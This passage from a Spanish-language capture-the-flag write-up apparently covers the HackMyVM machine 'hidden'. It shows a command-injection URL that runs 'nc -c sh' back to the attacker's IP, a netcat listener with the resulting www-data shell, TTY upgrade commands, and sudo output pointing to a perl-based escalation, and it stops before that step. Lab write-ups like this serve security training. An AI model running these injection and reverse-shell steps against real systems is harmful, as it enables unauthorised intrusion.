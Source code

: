 ```
URL = http://sys.hidden.hmv/weapon/loot.php?hack=nc%20-c%20sh%20192.168.1.146%207777
```

Vamos a ponernos a la escucha de la siguiente manera:

```shell
nc -lvnp <PORT>
```

Ahora si vamos a enviar el comando desde la pagina como lo pusimos de la forma anterior y si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.1.146] from (UNKNOWN) [192.168.1.178] 39522
whoami
www-data
```

Vamos a sanitizar la shell (TTY).

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user toreto

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on hidden:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on hidden:
    (toreto) NOPASSWD: /usr/bin/perl
```

Veremos que podemos ejecutar el binario `perl` como el usuario `toreto` por lo que haremos lo siguiente:
